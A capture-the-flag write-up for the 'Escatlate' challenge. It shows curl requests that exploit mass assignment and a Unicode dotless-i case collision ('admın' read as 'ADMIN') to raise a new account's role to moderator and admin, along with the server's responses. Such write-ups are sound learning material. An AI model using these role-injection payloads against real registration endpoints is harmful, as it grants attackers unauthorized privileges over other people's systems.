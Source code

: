 # Escatlate
### There are two flags to find in this challenge. Let's take a look at how to find them.
[https://escatlate-52bc47e034fa.1753ctf.com/]
>
>Look! Kitties!
>
## Moderator

Logging in to the cat site automatically gets the `user role`, it allows you to browse the cat site and post comments. However, the application has a vulnerability: Mass Assignment. This means that the role assignment is not checked and the user can change it.That is, by providing a session token we are able to overwrite our role. Read more [here](https://tcm-sec.com/exploiting-mass-assignment-vulnerabilities/)

###example solution

```bash 
curl --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.catthesecond' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"test\",\"role\":\"MODERATOR\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we recive: 
```bash
{"username":"fw","password":"test","token":"336acba143e311f0371d56a04f1698aad191017df4162b0a32f78aadb5298ccd","role":"MODERATOR"}
```
With changed role and our token we can write:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Mr.FireFox' -H $'X-Token: 336acba143e311f0371d56a04f1698aad191017df4162b0a32f78aadb5298ccd' \           
    $'https://escatlate-52bc47e034fa.1753ctf.com/api/message'
```

## Admin

However, with the second flag, i.e. changing the role from `user` to `admin`, the application has a dotless vulnerability. When you specify a new role as `admın`, Unicode case collisions happen and it is read as `ADMIN`. More information [here](https://dev.to/jagracey/hacking-github-s-auth-with-unicode-s-turkish-dotless-i-460n)

###example solution
```bash 

url --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"sus\",\"role\":\"admın\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we also recive:
```bash
{"username":"fw","password":"sus","token":"2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2","role":"admın"}
```
so we can confirm our role now is `admın` but app read this role as  `ADMIN` so we have admin righ. Now we can use our rights and token to get flag:
```bash
curl --path-as-is -i -s -k -X $'GET' \
-H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H $'X-Token: 2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2' \
$'https://escatlate-52bc47e034fa.1753ctf.com/api/message'

```
